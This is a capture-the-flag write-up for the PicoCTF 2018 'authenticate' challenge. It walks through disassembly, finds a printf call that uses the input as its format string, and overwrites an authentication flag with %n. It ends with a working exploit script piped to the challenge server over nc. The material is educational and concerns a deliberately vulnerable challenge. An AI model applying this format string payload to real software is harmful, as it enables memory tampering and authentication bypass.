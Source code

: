 # Write-up for shellcode challenge
# PicoCTF_2018: authenticate

**Category:** Binary Exploitation
**Points:** 350

>Can you authenticate to this service and get the flag? Connect with nc 2018shell.picoctf.com 52918. Source.

> # Introduction
In this write-up we're gonna perform a format string attack. I shall show it with ASLR disabled.(See what ASLR is [here](https://github.com/giannoulispanagiotis/picoCTF-2018-wiretup/tree/master/got2learnlibc#aslr))

> # Vulnerability

As I said before, in this challenge Ι'm going to present to you a format string attack. And, what is that? You'll find soon.
First of all, let's disassemble our binary with gdb to see if we can find a vulnerability to exploit.

```asm
Dump of assembler code for function main:
=> 0x0804871d <+0>:	lea    ecx,[esp+0x4]
   0x08048721 <+4>:	and    esp,0xfffffff0
   0x08048724 <+7>:	push   DWORD PTR [ecx-0x4]
   0x08048727 <+10>:	push   ebp
   0x08048728 <+11>:	mov    ebp,esp
   0x0804872a <+13>:	push   ecx
   0x0804872b <+14>:	sub    esp,0x64
   0x0804872e <+17>:	mov    eax,ecx
   0x08048730 <+19>:	mov    eax,DWORD PTR [eax+0x4]
   0x08048733 <+22>:	mov    DWORD PTR [ebp-0x5c],eax
   0x08048736 <+25>:	mov    eax,gs:0x14
   0x0804873c <+31>:	mov    DWORD PTR [ebp-0xc],eax
   0x0804873f <+34>:	xor    eax,eax
   0x08048741 <+36>:	mov    eax,ds:0x804a044
   0x08048746 <+41>:	push   0x0
   0x08048748 <+43>:	push   0x2
   0x0804874a <+45>:	push   0x0
   0x0804874c <+47>:	push   eax
   0x0804874d <+48>:	call   0x8048520 <setvbuf@plt>
   0x08048752 <+53>:	add    esp,0x10
   0x08048755 <+56>:	call   0x80484e0 <getegid@plt>
   0x0804875a <+61>:	mov    DWORD PTR [ebp-0x50],eax
   0x0804875d <+64>:	sub    esp,0x4
   0x08048760 <+67>:	push   DWORD PTR [ebp-0x50]
   0x08048763 <+70>:	push   DWORD PTR [ebp-0x50]
   0x08048766 <+73>:	push   DWORD PTR [ebp-0x50]   
   0x08048769 <+76>:	call   0x8048540 <setresgid@plt>
   0x0804876e <+81>:	add    esp,0x10
   0x08048771 <+84>:	sub    esp,0xc
   0x08048774 <+87>:	push   0x8048968
   0x08048779 <+92>:	call   0x80484f0 <puts@plt>
   0x0804877e <+97>:	add    esp,0x10
   0x08048781 <+100>:	mov    eax,ds:0x804a040
   0x08048786 <+105>:	sub    esp,0x4
   0x08048789 <+108>:	push   eax
   0x0804878a <+109>:	push   0x40
   0x0804878c <+111>:	lea    eax,[ebp-0x4c]
   0x0804878f <+114>:	push   eax
   0x08048790 <+115>:	call   0x80484c0 <fgets@plt>
   0x08048795 <+120>:	add    esp,0x10
   0x08048798 <+123>:	sub    esp,0x8
   0x0804879b <+126>:	push   0x8048992
   0x080487a0 <+131>:	lea    eax,[ebp-0x4c]
   0x080487a3 <+134>:	push   eax
   0x080487a4 <+135>:	call   0x80484a0 <strstr@plt>
   0x080487a9 <+140>:	add    esp,0x10
   0x080487ac <+143>:	test   eax,eax
   0x080487ae <+145>:	je     0x80487ca <main+173>
   0x080487b0 <+147>:	sub    esp,0xc
   0x080487b3 <+150>:	push   0x8048995
   0x080487b8 <+155>:	call   0x80484f0 <puts@plt>
   0x080487bd <+160>:	add    esp,0x10
   0x080487c0 <+163>:	sub    esp,0xc
   0x080487c3 <+166>:	push   0x1
   0x080487c5 <+168>:	call   0x8048500 <exit@plt>
   0x080487ca <+173>:	sub    esp,0x8
   0x080487cd <+176>:	push   0x80489a6
   0x080487d2 <+181>:	lea    eax,[ebp-0x4c]
   0x080487d5 <+184>:	push   eax
   0x080487d6 <+185>:	call   0x80484a0 <strstr@plt>
   0x080487db <+190>:	add    esp,0x10
   0x080487de <+193>:	test   eax,eax
   0x080487e0 <+195>:	jne    0x8048801 <main+228>
   0x080487e2 <+197>:	sub    esp,0xc
   0x080487e5 <+200>:	push   0x80489aa
   0x080487ea <+205>:	call   0x80484f0 <puts@plt>
   0x080487ef <+210>:	add    esp,0x10
   0x080487f2 <+213>:	sub    esp,0xc
   0x080487f5 <+216>:	lea    eax,[ebp-0x4c]
   0x080487f8 <+219>:	push   eax
   0x080487f9 <+220>:	call   0x80484b0 <printf@plt>
   0x080487fe <+225>:	add    esp,0x10
   0x08048801 <+228>:	call   0x80486e4 <read_flag>
   0x08048806 <+233>:	mov    eax,0x0
   0x0804880b <+238>:	mov    edx,DWORD PTR [ebp-0xc]
   0x0804880e <+241>:	xor    edx,DWORD PTR gs:0x14
   0x08048815 <+248>:	je     0x804881c <main+255>
   0x08048817 <+250>:	call   0x80484d0 <__stack_chk_fail@plt>
   0x0804881c <+255>:	mov    ecx,DWORD PTR [ebp-0x4]
   0x0804881f <+258>:	leave  
   0x08048820 <+259>:	lea    esp,[ecx-0x4]
   0x08048823 <+262>:	ret    
End of assembler dump.
```

Hmm, at first sight we can't find something wrong in this code (there is not gets here, fgets is safe unfortunately).But, running the code we notice that **0x080487f9 <+220>:	call   0x80484b0 <printf@plt>** takes only one argument (our input specifically).

![Screenshot from 2019-10-11 21-26-50](https://user-images.githubusercontent.com/37578272/66675391-e93a1900-ec6d-11e9-9478-c202105cd70b.png)

So, if our input is hello_world (like above) everything is gonna be alright:
printf("hello_world") gives us hello_world.
Think about it for minute before you see the solution.

If we parse as an argument something like "%d %d %d %d", what's going to happen?

![Screenshot from 2019-10-11 21-36-56](https://user-images.githubusercontent.com/37578272/66677578-9c0c7600-ec72-11e9-84a7-370eb777c5b6.png)
We see some random numbers. printf("%d %d %d %d") will search for addresses of 4 variables to print 4 integers.
However, we haven't parsed 2nd argument inside printf, hence the integers that it prints are some numbers in the stack. Same thing happens with "%x %x %x %x" and now we get some hex values:

![Screenshot from 2019-10-11 21-37-10](https://user-images.githubusercontent.com/37578272/66677581-9d3da300-ec72-11e9-9e37-d96a8c2dba01.png)


Where in the stack are those hex values? We're gonna find soon. But first, we didn't say how we are going to get this flag. 
Let's examine read_flag function.

```asm
Dump of assembler code for function read_flag:
   0x080486e4 <+0>:	push   ebp
   0x080486e5 <+1>:	mov    ebp,esp
   0x080486e7 <+3>:	sub    esp,0x8
   0x080486ea <+6>:	mov    eax,ds:0x804a04c
   0x080486ef <+11>:	test   eax,eax
   0x080486f1 <+13>:	jne    0x8048705 <read_flag+33>
   0x080486f3 <+15>:	sub    esp,0xc
   0x080486f6 <+18>:	push   0x8048934
   0x080486fb <+23>:	call   0x80484f0 <puts@plt>
   0x08048700 <+28>:	add    esp,0x10
   0x08048703 <+31>:	jmp    0x804871a <read_flag+54>
   0x08048705 <+33>:	sub    esp,0xc
   0x08048708 <+36>:	push   0x8048958
   0x0804870d <+41>:	call   0x80484f0 <puts@plt>
   0x08048712 <+46>:	add    esp,0x10
   0x08048715 <+49>:	call   0x804865b <flag>
   0x0804871a <+54>:	nop
   0x0804871b <+55>:	leave  
   0x0804871c <+56>:	ret    
End of assembler dump.
```
In this instruction: **0x080486ea <+6>:	mov    eax,ds:0x804a04c**  we notice an address(data segment). 0x804a04c is an address of a global variable called authenticated. Authenticated is initialized to zero. We then see, **test eax, eax**.
So, if we  modify authenticated variable, test will enable ZF(zero flag) and  we will jump to the flag function, which would give us the flag.
How can we modify it?

We know the address of variable (This instruction is hardcoded which means that authenticated variable will always be on this address, and this makes it easier for us--ASLR is disabled--), and we know that printf is a vulnerable function right now.

Have you ever heard about %n inside printf? 
Man page of printf tells us about %n:
![Screenshot from 2019-10-11 21-11-58](https://user-images.githubusercontent.com/37578272/66677231-da556580-ec71-11e9-8dbe-57f6fb354c97.png)

Ohhh that's too serious. "%n" let us write things in memory. For example:

printf("Hello World%n", &var): writes to var the length of Hello World (=11). Here, we don't have second argument, if we could find where in the stack were those printed values we saw above, with fgets we could parse the address of authenticated and with %n we could write to it. 

Let's test as input this: AAAAAAAA %x %x %x %x %x %x %x %x %x %x %x %x %x.

![Screenshot from 2019-10-11 22-03-26](https://user-images.githubusercontent.com/37578272/66677735-fad1ef80-ec72-11e9-90ea-0d592a15c845.png)

We hitted the A's of our input and the first %x (0x782520-->ascii code of %x). So, if we change first 4 A's with variable's address and decrease %x's by 2 the last hex value will be the address.

```bash
python -c 'print "\x4c\xa0\x04\08" + "AAAA" + "%x "*11' | ./auth
```
![Screenshot from 2019-10-11 22-18-43](https://user-images.githubusercontent.com/37578272/66678683-1fc76200-ec75-11e9-988c-cf28b3053e14.png)

And it's true. Therefor, we change the last "%x" with a "%n". So in the address: 0x0804a04c %n will print length of \x4c\xa0\x04\08AAAA"%x "*10. 

Autenticated will be modified and we'll get the flag. Let's do it. 

Our exploit:
```bash
#!/bin/bash 
 
python -c 'print "\x4c\xa0\x04\x08" + "AAAA" +  "%x "*10 + "%n"' > payload 
 
cat payload | nc 2018shell.picoctf.com 52918 | tail -1  
```

Congrats, we got our flag. See you in the next challenge.




